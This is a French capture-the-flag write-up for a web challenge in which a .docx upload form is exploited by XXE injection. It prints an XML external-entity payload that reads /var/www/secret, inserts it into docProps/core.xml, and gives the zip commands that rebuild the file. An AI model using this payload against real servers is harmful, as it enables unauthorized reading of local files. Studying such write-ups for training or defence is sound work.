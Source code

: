 ﻿* * * * *
					   La boite à secret - Web
* * * * *

**Enoncé:** Il semble que Djakpataglo ait un vrai problème avec les fichiers .docx [lien de l'épreuve](http://hackerlab.bj:8082/)

On ouvre le lien dans le naviguateur et on a un message: 
>L'OCRC a arrêté le célèbre GAYEMAN qui affirme après interrogatoire que le flag se trouve dans **/var/www/secret** 

Et un formulaire d'upload de fichier au format **.docx**. 
Après une série d'upload de shell échoués, nous avons su grâce à des recherches qu'il s'agissait de **l'xxe (XML External Entity) injection**.

Le principe est simple, nous allons injecter du code **XML** dans un document Word (**.docx**),  nous permettant de lire le flag contenu dans le fichier **/var/www/secret** .

Le code à injecter:

```xml
<!DOCTYPE replace [ <!ENTITY ent SYSTEM "file:///var/www/secret" > ]\>
<dc:title>&ent;</dc:title>
```

Pour injecter ce code, nous allons créer un simple document **Word** et écrire n'importe quoi dedans puis l'enregistrer. Ensuite nous allons l'extraire avec **unzip**:

`$ unzip payload.docx`

	Archive: payload.docx 
		 inflating: *rels/.rels
		 inflating: word/*rels/document.xml.rels
		 inflating: word/fontTable.xml
		 inflating: word/styles.xml
		 inflating: word/document.xml
		 inflating: word/settings.xml
		 inflating: docProps/core.xml
		 inflating: docProps/app.xml
		 inflating: [Content\_Types].xml

Une fois extrait, allons dans le dossier puis injectons notre charge utile **(payload XML)** dans le fichier **docProps/core.xml**

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?> 
	<!DOCTYPE replace [ <!ENTITY ent SYSTEM "file:///var/www/secret" > ]\> <!-- PAYLOAD 1-->
	<cp:coreProperties xmlns:cp="http://schemas.openxmlformats.org/package/2006/metadata/core-properties" xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:dcterms="http://purl.org/dc/terms/" xmlns:dcmitype="http://purl.org/dc/dcmitype/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
		<dcterms:created xsi:type="dcterms:W3CDTF">2019-11-21T18:21:30Z</dcterms:created>
		<dc:creator></dc:creator>
		<dc:description></dc:description>
		<dc:language>fr-FR</dc:language>
		<cp:lastModifiedBy></cp:lastModifiedBy>
		<cp:revision>0</cp:revision>
		<dc:subject></dc:subject>
		<dc:title>&ent;</dc:title> <!-- PAYLOAD 2-->
	</cp:coreProperties>
```

Après ça nous allons mettre à jour le fichier sous le même nom c'est à dire **payload.docx** et ensuite l'uploader:

`$ zip -u payload.docx docProps/core.xml`

Après l'upload, on a le flag:

**Your flag is 'CTF_YeahWebExploiter! '**


